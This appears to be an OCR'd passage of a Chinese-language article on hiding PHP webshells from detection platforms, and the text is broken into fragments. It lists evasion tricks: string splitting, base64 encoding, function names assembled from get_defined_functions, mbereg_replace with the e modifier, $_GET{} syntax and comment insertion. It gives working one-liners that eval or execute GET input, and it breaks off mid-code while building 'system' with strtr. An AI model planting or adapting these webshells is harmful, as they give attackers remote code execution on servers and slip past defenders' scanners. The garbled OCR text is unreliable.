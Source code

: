 =$a  
[  
0  
];获取到$a的第一个字符  
"l"  
3.通过字符拆分利用一些特定函数或者语言特性  
例如  
:  
"."连接$a  
=  
'a'  
;$b  
=  
'b'  
;$c  
=$a  
.$b  
;  
4.通过函数编码加密利用base64进行编码操作有的时候在cms中的代码会检测内容  
5.通过函数内容  
例如  
:  
get_defined_functions  
()获取所有已定义函数的数组
通过获取指定数组内容得到关键字组合进行  
RCE  
6.通过不常用函数mbereg_replace功能跟preg_replace一样支持e模式的正则表达式可以造成任意代码执行  
<?php  
mbereg_replace  
(  
'.*'  
,  
'\0'  
,$_GET  
{  
1  
},  
'mer'  
);  
7.符号代替在外面php中$_GET  
{}是可以代替$_GET  
[]的  
8.符号干扰  
例如  
:eval  
/**/  
($_GET  
[  
1  
]);函数拆分案例
在去年的时候可以绕webshell全部平台的我也写过一篇文章
应该传的多了过滤了在我们的印象中eval是不可以拆分的但我们可以通过函数去帮我们做这些事情可以去寻找类似的代码  
<?php$a  
=  
strtr  
(  
"systme"  
,  
"me"  
,  
"em"  
);$b  
=  
strtr  